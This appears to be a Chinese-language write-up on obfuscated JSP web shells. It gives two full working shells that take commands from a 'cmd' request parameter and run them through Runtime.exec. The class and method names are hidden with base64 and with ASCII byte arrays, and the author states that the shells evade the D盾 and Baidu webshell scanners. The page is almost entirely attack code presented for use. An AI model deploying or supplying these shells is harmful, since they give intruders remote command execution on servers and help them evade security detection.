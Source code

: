 利用base64编码

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("
<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429484-989ad2dd-05ea-4a53-9d39-615a59634344.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429573-4b451e63-266a-49f1-92bc-9f350ebc3ea5.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429667-305655ac-5adf-43a7-bfdb-f2b97e98d16d.png)

可以bypass D盾跟百度scanner，下面的都是免杀的，就不截图了。

利用ASCII编码

```
<%@ page contentType="text/html;charset=UTF-8"  language="java" %>
<%
    if(request.getParameter("cmd")!=null){
        Class rt = Class.forName(new String(new byte[] { 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101 }));
        Process e = (Process) rt.getMethod(new String(new byte[] { 101, 120, 101, 99 }), String.class).invoke(rt.getMethod(new String(new byte[] { 103, 101, 116, 82, 117, 110, 116, 105, 109, 101 })).invoke(null), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;byte[] b = new byte[2048];out.print("
<pre>");
        while((a=in.read(b))!=-1){ out.println(new String(b)); }out.print("</pre>");
    }
%>
```

